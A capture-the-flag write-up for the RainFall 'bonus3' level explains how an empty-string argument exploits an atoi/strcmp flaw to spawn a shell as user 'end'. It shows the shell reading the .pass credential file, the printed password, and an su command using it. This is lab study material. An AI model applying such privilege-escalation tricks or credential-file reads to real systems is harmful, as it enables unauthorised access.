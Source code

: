 We see here, that in order to have a shell, we just need the strcmp between the content of the .pass and our first argument to be equal.
There is just one tweak that has been done to the content of `/home/user/end/.pass` :

```c
		iVar2 = atoi(argv[1]);
		*(undefined *)((int)local_98 + iVar2) = 0;

```

Basically, we can choose where the string will end, so when the strcmp will end.
The trick here is that `atoi("")` return 0.
By doing so, local_98 will became `\x00flag`, so when use as a string : only `""` :

>bonus3@RainFall:~$ ./bonus3 ""
>$ whoami
>end
>$ cat /home/user/end
>cat: /home/user/end: Is a directory
>$             
>bonus3@RainFall:~$ ./bonus3 ""
>$ whoami
>end
>$ cat /home/user/end/.pass
>3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c

```bash
su end
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

